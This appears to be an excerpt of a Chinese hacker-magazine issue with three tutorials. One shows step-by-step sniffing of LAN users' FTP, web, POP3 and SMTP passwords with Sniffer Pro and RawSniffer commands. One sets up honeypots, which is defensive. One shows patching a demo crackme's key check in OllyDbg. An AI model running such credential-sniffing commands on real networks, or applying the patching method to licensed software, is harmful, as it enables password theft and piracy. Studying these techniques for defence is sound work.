当嗅探到自己所需的结果时，可按下 `<Ctrl>+C` 组合键停止嗅探（如图8），然后打开 C 盘下的“password.txt”文件，将看到详细的通过 80 端口的数据；其中包括登录网站的未加密密码等。


## 二、经典嗅探攻击——Sniffer Pro

- 步骤一：Sniffer Pro 的基本设置

安装运行 Sniffer Portable 后，在安装过程中可能需要卸载用户系统中已安装的“QoS”网络协议，在安装结束时勾选“Uninstall the QoS Packet Scheduler Service”项即可（如图9）。第一次运行时首先要求选择用来进行嗅探的网卡，如果是多网卡的话就从中选择用来连接局域网的网卡（如图10）。

- 步骤二：设置嗅探协议

进入主界面后，点击菜单“捕获→定义过滤器”，在“地址”标签中可以设置局域网内所要监听的主机及要监听的协议等（如图11）。假设进行监听的主机 IP 地址为“192.168.1.11”，要嗅探监听与局域网中所有其他主机的流量，可以在“地址类型”中选择“IP”，在地址列表第一栏中填入主机的 IP 地址“192.168.1.11”，在另一栏中填入“任意的”，方向选择上是收发均进行监听（如图12）。

切换到“高级”选项卡，可以选择要嗅探的网络协议，如常见的 FTP、Telnet、HTTP 协议等，都可以在“常用协议→IP→TCP”下进行选择（如图13）。还可设置捕获数据包的大小，以过滤掉无用的数据。这里以嗅探 FTP 密码为例：监听协议为“Telnet”，设置“数据包大小”为“Equal=55”，数据包类型为“正常”（如图14）。


图10


图13


图11


图14


图12


图15

- 步骤三：嗅探攻击

设置完毕后返回程序主窗口，按下 F10 键，即可开始嗅探监听所有本机与其他主机进行的数据交换了（如图15）。当有人在局域网中通过 FTP 工具下载、登录主机时输入用户名和密码，都会被 Sniffer Pro 所截取记录。

按下 F9 键，停止监听并显示监听结果。在监听结果中点击“解码”标签，切换到转换过的结果列表中，可以在“摘要”列中看到每行对应一个输入字符，其中显示有 Telnet 用户名和密码（如图16）。

## 三、超强嗅探工具——Raw Sniffer

### 步骤一：嗅探 FTP 密码

攻击者下载 Raw Sniffer，打开命令提示符窗口，进入 Raw Sniffer 所在的文件夹。假设要嗅探 IP 地址为“192.168.1.11”的主机，使用 FTP 登录主机“192.168.1.1”时的用户账号和密码，可以在命令行下输入命令：

```bash
rawsniffer -si 192.168.1.11 -di 192.168.1.1 -sp * -p TCP -dp 21 -o c:\FTP.txt -sniffpacket
```


命令运行后，提示当前用户的嗅探设置，包括嗅探的 IP 地址、端口、数据传输方向、文件保存模式等（如图17）。按下“Y”键确认，即可开始嗅探通过主机发送的 FTP 数据，在屏幕上显示嗅探到的 FTP 密码。一旦有主机“192.168.1.11”连接“192.168.1.1”FTP 服务器时，软件会自动从数据中分离出有效的 FTP 用户名和密码，显示在屏幕上（如图18）。

在“FTP 嗅探结果”中，还有详细 FTP 服务器 IP 地址、连接端口、目标 IP 地址和源 IP 地址、连接服务器的时间等信息。其中“Username”和“Password”字符串后的就是 FTP 用户名和密码。


如果要嗅探局域网中所有 FTP 用户密码，则可执行如下命令：

```bash
rawsniffer -si * -di * -sp * -p TCP -dp 21 -o c:\FTP.txt -sniffpacket
```

也可以执行命令：

```bash
rawsniffer -si * -di * -sniffftp
```

### 步骤二：嗅探 HTTP 密码

如果要嗅探局域网中所有通过网页发送的密码，如邮箱、博客、论坛等密码，可以执行如下命令：

```bash
rawsniffer -si * -di * -sniffhttp -sniffpost -sniffpacket -o c:\http.txt
```

嗅探到的所有密码都将被保存到“c:\http.txt”文件中。

### 步骤三：嗅探 POP/SMTP 密码

要嗅探其他 POP/SMTP 密码，也非常轻松方便，执行命令：

```bash
rawsniffer -si * -di * -sniffsmtp -sniffpop3 -o c:\smtp.txt
```

即可嗅探 SMTP、HTTP 和 POP3 密码了。如果想同时嗅探所有密码的话，可以加上“-sniffall”参数，执行如下命令：

```bash
rawsniffer -si * -di * -sniffall c:\mima.txt
```

许多电脑用户以为，攻击者要盗取自己的密码，就一定要在自己的电脑上安装木马之类的东西。其实对于局域网用户来说，即使你保证系统中没有任何木马，密码很可能会被局域网内的攻击者通过嗅探的手段获取。攻击者使用嗅探器，不仅可以从网络数据中获取许多有用的东西，比如用户的邮箱密码、FTP 密码、游戏账号等，同时也是入侵时提升权限、渗透入侵的一种有效手段。

在上面的攻击事例中，攻击者使用了三个嗅探器：其中 ARPSniffer 是一个著名的交换机环境下的嗅探器，可以实现交换环境下的网络嗅探，当然也可以运行于非交换环境下，嗅探各种网络信息。Sniffer Portable v4.7.5 SP4 是由 NAI 公司出品的。NAI 公司是世界著名的网络安全维护机构，其产品 Sniffer Portable 是网络管理员进行网络协议分析的必备软件，对于普通的嗅探更是不在话下了。而 RawSniffer 则是一款超强而且小巧的嗅探工具，无需进行复杂设置，即可嗅探到所有常见类型的密码。

# 是善意的谎言欺骗了你？
## ——欺骗黑客的蜜罐系统

hx小龙

当大家看到我这个题目“是善意的谎言欺骗了你？——欺骗黑客的蜜罐系统”，一定是特别糊涂了吧！所以下面我就给大家先解读一下这个题目，好让大家看个明白。首先是“善意的谎言”，为什么要这么说呢？这就不得不引进我们这篇文章所要阐述的对象了——“蜜罐”。那么什么是蜜罐呢？这个我在下文会为大家提到。接下来我们来看题目的后半部分“欺骗黑客的蜜罐系统？”，那么这个又是什么意思呢？其实简单地理解，在这里我是打了一个比较形象的比喻，这句话的阐体是蜜罐所具有的最显著特点之一。好了，题目的含义就为大家概括到这里，下面就让我们走进蜜罐的神秘世界，来简单地了解下它吧。

初次提到“蜜罐”的是美国的 L. Spizner，他身为一名专业的蜜罐学家，曾经对蜜罐下过一个这样的概念：“蜜罐是一种资源，它的价值是被攻击或攻陷。这就意味着蜜罐是用来被探测、被攻击甚至最后被攻陷的。蜜罐不会修补任何东西，这样就为使用者提供了额外的、有价值的信息。蜜罐不会直接提高计算机网络安全，但是它却是其他安全策略所不可替代的一种主动防御技术。”

综上所述，简单地说，蜜罐是一种专门被设置成被扫描、被入侵、被攻击的网络资源，它的目的就是建立一个诱骗环境，吸引入侵者或者攻击者对它进行攻击，而且最大的特点就是攻击者可以毫不费灰之力地入侵进去，并且可以对入侵者的入侵方法和所有操作进行记录和监控。


图1


图2

## 一、At the beginning 蜜罐的自述

My name is HoneyPot，中文名字叫“蜜罐”。我的名字与我的功能可谓是相辅相成的，其实我的名字就是我本身最大特点的一个概述吧。听到这里我再来为大家举个简单的例子，这也是为了大家更加形象地去了解我。

我们试着这样去想：“蜜”理解为“蜂蜜”，而“罐”则理解为“一个特定的环境”。大家都明白熊是最爱吃蜂蜜的，也就是说只有存蜂蜜的地方才会吸引熊的注意力。如果我们要猎一只熊的话，我们一定不会傻得像“守株待兔”那个样子坐着等，所以聪明的朋友就会想到一个办法，那就是欺骗，利用一个“诱饵”去进行欺骗。对，“蜜罐”在这里的作用就是欺骗，这是从“蜜罐”这个词语本身出发去理解它。

在现实生活中，这样的例子也是很常见的，例如“老鼠夹子”，它的原理和我们蜜罐的原理是大相径庭的，都是利用欺骗的手段，使猎物以为自己进入了一个理想化的环境。猎物本以为自己很容易获得了自己想要的东西，但是结果却是适得其反。就好比老鼠，以为自己会得到食物，但是结果呢？却是什么都没有得到，反而害了自己，这是现实生活中的蜜罐原理。

回到网络世界，在这个科技发展高速的时代，随着计算机信息的普及和不断扩展，黑客的平民化，让身在网络的我们安全感匮乏。如果我们只是一味地想着怎么去防范的话那么显得也太被动了，所以也就出现了“蜜罐”。

蜜罐是一个轻型的开放源代码虚拟蜜罐框架，可以模拟多个操作系统和网络服务，支持 IP 协议族，创建任意结构的虚拟网络。同时，为了模拟拓扑分散的网络地址空间和共享负荷，该结构也支持网络通道。（如图1、2）是蜜罐的数据接收和蜜罐的结构示意图。

从根本来说，蜜罐与一台毫无防范的计算机是一模一样的，两者都很容易被入侵和破坏。但是蜜罐还不等于普通计算机，蜜罐等于一个精心布置的“黑匣子”，看似千疮百孔但却尽在其中，而普通计算机却根本不会回馈这些信息。它的价值就在于被攻击和被探测。

那么什么才能算是一个成功的蜜罐呢？大家在入侵的过程中（哦，什么，你连什么叫入侵都不知道，我假晕一下啊！），从入侵者的角度来看，入侵蜜罐的过程会使入侵者的心情大起大落，从一开始的激动兴奋，到骂服务器管理员白痴，最后到自己被当成白痴耍的过程。

## 二、付诸行动，配置蜜罐的过程

上边对蜜罐描述了那么多，大家也可以看到它潜在的市场和它自身的优点，所以我们有必要来学习下蜜罐的简单配置。下文我会从蜜罐的几款代表软件入手，带大家深入了解蜜罐。当然关于蜜罐的知识多如海水，而我们学习的也只是毛皮而已，但是作为网络爱好者的我们，只要掌握这些局部知识就已经完全足够了。

在模拟攻击前，我这里准备了两台模拟计算机，分别是：计算机 A（攻击主机）192.168.13.1；计算机 B（蜜罐系统）192.168.13.128。攻击主机系统为 Windows XP SP3，蜜罐系统主机系统为 Windows 2003。蜜罐系统搭建在虚拟机上，不会安装虚拟机的可以参考《黑客X档案》2010年第4期“菜鸟学堂”的文章。

# 主题乐园


用啊D工具包的“扫描端口”对这台主机的23端口扫描一下，看看它是否为开放状态（如图7），证明了它是开放状态。此时我们返回到蜜罐系统中，可以看到蜜罐系统给出的如下信息：

```text
<2010-4-11> <6:01:50> Listening for HTTP connections
on 0.0.0.0:23.

User logged in

User logged out

User logged in

User logged out

<2010-4-11> <6:02:51> Auto Save Log ...

User logged in

User logged out

<2010-4-11> <6:04:31> Auto Save Log ...
```


## 1. Trap Server蜜罐简单简介

这款软件又名《虚拟服务器》，trap翻译为“圈套、困境、陷阱”的意思。软件适用于Win95/98/Me/NT/2000/XP系统，可以模拟很多不同的服务器，例如：Apache HTTP Server、Microsoft IIS等。

软件已经被汉化为中文了，所以我们使用起来也非常方便。在虚拟机中直接运行安装程序（如图3）所示，安装过程很简单，所有过程直接单击“下一步”就可以了。在安装过程中它会提示我们安装“虚拟服务器软件”的路径，大家可以保持默认，也可以选择切换到自定义目录中，我保持的是默认（如图4）。


安装完成后我们就可以看到软件界面了。这款软件提供给我们3种服务类别，分别是“iis服务器、Apache服务器、EasyPHP服务器”（如图5）。软件操作界面很简单，每当切换一种服务器类别，相对应的主界面路径都会随之改变。我们就以启动iis服务器为例，选择“启动iis服务器”，勾选上“记录日志”和“自动保存日志记录”两个选项，在“监听端口”选项中选择我们要监听的端口。在这里我们都知道，80默认是浏览网页的端口，而21默认为FTP，23则是telnet的默认端口（端口号范围是从0至65535）。


关于端口的作用，在“啊D工具包”下的“端口扫描->常用端口列表”中已经为大家列举出来了，不知道的同学可以去参考下（如图6）。这里为了效果明显，我选用23端口为大家做实验，更改监听端口为“23”，我们使用啊D工具包扫描。第一行表示软件已经开始监听23端口，往下看提示就是有一个用户登录了服务器，确定了我们的服务器23端口是开放状态。

在开放状态下，我们来使用本机的cmd连接蜜罐主机（如图8）。输入账号密码进行登录即可。最后分析完入侵者入侵的步骤，我们转到软件右半部分可以看到“追踪入侵者”的操作框，单击“追踪”，软件就会显示出“入侵者的IP（如图9）”。以上就是对Trap Server这款蜜罐系统的简单介绍。大家可以看到，功能比较强大，而操作却很简单。下面我们再来看一款蜜罐程序，多学一种方法，思路也可以开阔一点，在以后的实践中就离成功更近一步。


### 2. 微型蜜罐系统的使用

这是一款较新的蜜罐程序，它的功能是：可以监视系统是否有人入侵或者扫描你的计算机，监视方式是通过监视端口的方式。下面我们来看它的使用方法。解压rar打包文件，可以看到它的主要文件有3个（如图10）。


我来分别解释下每个文件的含义。首先是config.ini，一看到ini后缀，顾名思义，它是配置文件。打开它可以看到3个字段，分别是ShowWindow、sound、port。ShowWindow表示程序运行时是否显示程序，默认为1表示显示，如果大家想不显示，把其值改为0就可以了；sound表示发现目标入侵后的提示声音，同样1表示有，0表示无；port表示监听端口，它的格式为“port1-port2-port3-......-portn-”。这里要注意，最后一个端口后要尾随一个“-”字符，否则系统扫描时会将最后一个端口略过。而且设置的端口也要尽量偏僻些，尽量不要和本机已开放端口重复（如图11）。接下来是第二个配置文件Message.ini，这个配置文件中存放的是当攻击主机试图连接到蜜罐主机时的提示命令。这里我修改成：“黑客X档案教程投稿，论坛地址：www.hackerxfiles.net by: hx小龙”。（如图12）


好了，接下来就是log.log文件了，其实就是日志记录文件。做好这些，我们就万事俱备，只欠东风了。双击honeypot.exe进入运行程序界面（如图13），程序便开始工作并进行监听。我们在攻击机上打开cmd，对蜜罐主机进行连接，输入telnet 192.168.13.128。我攻击的23端口是telnet默认端口，如果大家连接别的端口，只需要在IP后加空格再跟上端口号即可。连接成功后就可以看到（如图14）提示。


这时我们可以听到系统发出的一声恐怖声，不要惊慌，这是有恶意主机攻击的提示，呵呵~~。如果不想听到声音，我们只要修改config配置文件中的sound属性就可以了。现在我们返回蜜罐主机中，就可以观察到入侵提示给我们的信息，包括对方的入侵时间、端口和IP（如图15）。这款工具的好处在于体积小，并且可以同时监控几个端口，而且文件配置灵活，容易上手，可视化也比较强。当我们打开记录文件时，就可以看到蜜罐对入侵者的操作记录了（如图16）。

网络的日新月异，使蜜罐得到很好的发展和应用。从设计目的上来讲，蜜罐分为“产品型蜜罐”“研究型蜜罐”。“产品型蜜罐”具有实时检测和欺骗功能，它所要做的工作是检测并对付恶意攻击者，通常放置在一个内网环境中。由于它对攻击者具有相当大的吸引力，所以会消耗攻击者大量时间在其上面，从而减轻网络中其他计算机的安全压力，是商业组织作为保护的主要选择；而“研究型蜜罐”是为了获取和研究攻击者的有关信息而设定的，这类蜜罐不能增强组织安全性，因此不是商业组织首选，只有那些研究型机构或政府部门组织，例如大学、政府等才需要使用。根据蜜罐的工作方式来看，它又可以分为“牺牲性蜜罐”和“外观性蜜罐”。“牺牲性蜜罐”可以建立在任何设备上的可攻击系统，而“外观性蜜罐”则不同，它所呈现的是目标主机的虚假镜像，这种蜜罐配置过程相当简单，可以模仿大量不同主机。

## 三、警钟长鸣，时刻注意，简单总结

入侵与被入侵，安全与防御永远呈现一种两面性。关于蜜罐的知识就为大家介绍到这里了。蜜罐也并不是绝对安全，世界上不存在绝对安全。蜜罐在保护我们的同时，也存在许多不足。例如，当黑客进入我们的蜜罐系统时，利用蜜罐作为跳板干一些非法勾当，那么此时蜜罐的信息就会被获取，这样反而偷鸡不成蚀把米，所以它也存在一定危险，有时需要承担一定的法律责任。

蜜罐充当着一个让入侵者高兴的角色，在入侵者眼里它是善意的、可以带来希望的（因为它的千疮百孔，哈哈），但是当入侵者趁虚而入的时候，那么通过上文介绍，结果大家都是明白的：这个看似善意、看似不错的系统，确是一个实实在在的蜜罐，成为了一个确实的谎言，而这个谎言着实欺骗了他。

> （文章中所涉及的系统：微型蜜罐系统1.0、Trap Server，已收录在本期光盘中）

# 破解零起步（一）

# 认识破解

小哀

好的，今天天气真好。今天是菜鸟学堂的第一课，本课首先带大家认识一下破解，熟悉一下环境，从字符串入手，让小义们切身感受到破解的魅力。

在上课之前，我们需要知道什么是破解。软件的破解技术与保护技术这两者之间本身就是矛与盾的关系，它们在互相斗争中发展与进化。这种技术上的较量归根到底是一种利益冲突：软件开发者为了维护自身商业利益，不断寻找各种有效技术来保护自身软件版权，以增加保护强度，推迟软件被破解的时间；而破解者则受盗版所带来的高额利润驱使，或出于纯粹个人兴趣，不断制作新的破解工具并针对新出现的保护方式进行跟踪分析，以找到相应破解方法。

吉利：嗯，老师，我知道，我们要学习的不是怎么去破解别人的程序，而是学习别人破解的手段，从而防止自己的软件被破解！  
白糖：嗯，很对很对！  
小哀：看来大家悟性都很高，那我们就直接开始今天的课程。

## 一、破解需要的一些基础知识


```
常用汇编指令：
push    压入堆栈
pop     弹出堆栈
mov     传送字或字节
xchg    交换字或字节
call    调用过程
retn    过程返回
jmp     跳转
add     做加法
sub     做减法
mul     做乘法
div     做除法
nop     空指令，不执行任何动作
cmp     比较指令
je/jz   选择跳转（等于则跳）
jne/jnz 选择跳转（不等于则跳）
```

**寄存器：**寄存器是CPU的组成部分，有限存储容量的高速存储部件，它们可用来暂存指令、数据和位址。

**堆栈：**堆栈是一种数据项按序排列的数据结构，只能在一端（称为栈顶top）对数据项进行插入和删除。

> OD是一款动态追踪工具，将IDA与SoftICE的思想结合起来，Ring 3级用户态调试器，非常容易上手，已代替SoftICE成为当今最为流行的调试解密工具，也是小菜老师最喜欢的调试解密工具，强烈推荐，以后简称OD。

## 二、本课的目标

首先我们来看一下今天需要破解的目标（如图1、2）：这是一个简单的小程序，用来检测用户输入的Key是否正确。如果用户输入的Key错误，就弹出一个对话框提示错误！


这是我们比较常见的一种软件保护机制。当用户从网络上下载某个共享软件后，一般都有使用限制，注册后才能继续使用。注册过程一般是用户把自己的私人信息告诉给软件公司，软件公司会根据用户信息计算出一个序列码。用户得到序列码后，按照注册需要的步骤在软件中输入注册信息和注册码，其注册信息合法性由软件验证通过后，软件就会取消本身各种限制。这种加密实现起来比较简单，不需要额外成本，用户购买也非常方便，互联网上的软件80%都是以这种方式来保护的。


我们打开OD，选择菜单栏的“文件”→“打开”（如图4）。


然后OD会弹出一个对话框，我们在弹出的对话框里选择我们需要破解的文件（如图5）。


我们先来看看在网络上大行其道的序列号加密工作原理。软件验证序列号合法性的过程，其实就是验证用户名和序列号之间的换算关系是否正确的过程。其验证最基本有两种，一种是按用户输入的姓名来生成注册码，再同用户输入的注册码比较，公式表示如下：

```
特定值 = F（用户名，序列号）
```

既然这样的话，那我们需要怎么样来破解它呢？答案是：找到序列号，或者修改掉判断序列号之后的跳转指令。在这里，最重要的就是利用各种工具定位判断序列号的代码段。

下面进入本课正题，首先有请我们的OD。

> 白糖：OD？OD是什么？  
> 小菜：OD是一款大师级调试分析工具OllyDBG，中文版本叫做OllyICE（如图3），它是一款动态追踪工具……

系统就会把它加载到OD中（如图6）。嘿嘿，看上去貌似很专业，一片代码的海洋。我们回想一下刚才的情景：当我们输入的Key错误时，就弹出一个对话框提示“Key错误！”，那么我们现在就以这条提示为线索来破解这个小东西吧。


图6

这里我们需要用到OD的一款很强大的插件，叫做Ultra String Reference（小衰：罗聪大牛的作品，嘿，小衰老师的超级偶像！吉利：偶像的偶像会是什么样的人物呢？？？），我们选择菜单栏里的“插件”→“Ultra String Reference”→“1. Find ASCII”（如图7）。


图7


图8


图9


图10

如果用“Find ASCII”查找不到刚才的提示字符串，我们也可以用“Find Unicode”，一般只要没有加密过的字符串都可以找到（如图8）。

在弹出窗口中我们看到了刚才输入的字符串“Key错误！”，选中这一句，点右键“Follow Enter”（如图9），然后OD中的代码就会跳到这里（如图10）。

代码如下：

```asm
0040106A  . 68 B0544000    push 004054B0
; 将用户输入的Key放入堆栈
0040106F  . E8 4C000000    call 004010C0
; 检测Key
00401074  . 83C4 04        add esp,4
; 指向栈顶
00401077  . 84C0           test al,al
; Key是否正确
00401079  . 6A 00          push 0
; Style = MB_OK|MB_APPLMODAL
0040107B  . 68 50504000    push 00405050
; 提示
00401080  . 74 15          je short 00401097
; 如果Key错误就跳走
00401082  . 68 3C504000    push 0040503C
; 恭喜！\nkey正确！
00401087  . 6A 00          push 0
; hOwner = NULL
00401089  . FF15 9C404000  call dword ptr [<&USER32.MessageBoxA>>
0040108F  . B8 01000000    mov eax,1
00401094  . C2 1000        retn 10
00401097  > 68 30504000    push 00405030
; !key错误！
0040109C  . 6A 00          push 0
; hOwner = NULL
0040109E  . FF15 9C404000  call dword ptr [<&USER32.MessageBoxA>>
004010A4  . B8 01000000    mov eax,1
004010A9  . C2 1000        retn 10
004010AC  > 33C0           xor eax,eax
; Default case of switch 00401024
004010AE  . C2 1000        retn 10
```

我们来看这段代码。首先是一句push指令，用来把用户输入的Key放入堆栈；接下来一句call指令调用函数检测Key正确性；接下来的00401077处，用test指令检查上边调用函数的返回结果，并对标志寄存器ZF位进行设置。接着看00401080处，这一句代码是`je short 00401097`，je是选择性跳转指令，根据标志寄存器ZF位选择是否跳转。如果Key错误则跳到00401097处将字符串“key错误！”压入堆栈；如果注册码正确就顺序往下执行，将字符串“恭喜！\nkey正确！”压入堆栈，然后调用MessageBoxA函数弹出提示对话框。

那怎么才能实现这个小程序的破解呢？我们可以通过修改程序代码来实现让程序注册直接通过，无论输入什么都提示“恭喜！\nkey正确！”。回头再看代码，我们只需要忽略00401080处的选择性跳转，让程序直接顺序往下执行。那么怎么做呢？选中这一句代码，点击右键，选择“汇编”（如图11）。


在弹出的对话框中输入“nop”，再点“汇编”按钮，就可以将这句汇编代码修改为“nop”（如图12、13）。


然后再点击右键，选择“复制到可执行文件”→“所有修改”（如图14）。接着会跳出一个提示框“要把选中的内容复制到可执行文件么？”，这里选择“全部复制”（如图15）。


然后还会弹出一个提示窗口（吉利：#￥%……*，OD怎么这么麻烦！），在弹出窗口中再点击右键选择“保存文件”。现在，在弹出的保存对话框中将文件保存下来就可以了（如图16）。


现在运行我们刚才保存后的文件，看看破解到底有没有成功（如图17），它已经提示我们“恭喜！key正确！”！


# 主题乐园


> 白糖：zzz！

小哀：啊，终于完了，白糖同学，别睡觉了！

吉利：哈哈！大功告成了！老师好帅！

小哀：呃……今天的课程就到这里了。由于今天是第一课，涉及到一些基础知识，内容也比较简单，小伙伴们可要努力哟，回家后可要多练习呀！

## 三、本课总结

在文章的结尾，我们对本节课的内容来做一下总结：

- 1. 首先运行程序，试注册，记下程序返回给我们的错误提示；
- 2. 用OD加载目标程序；
- 3. 打开OD的字符串查找插件，找到刚才程序给我们的错误提示；
- 4. 来到该句所对应的代码处；
- 5. 找到程序的关键跳转，修改之；
- 6. 保存文件。

（文章中所涉及到的程序和OD已收录在光盘中）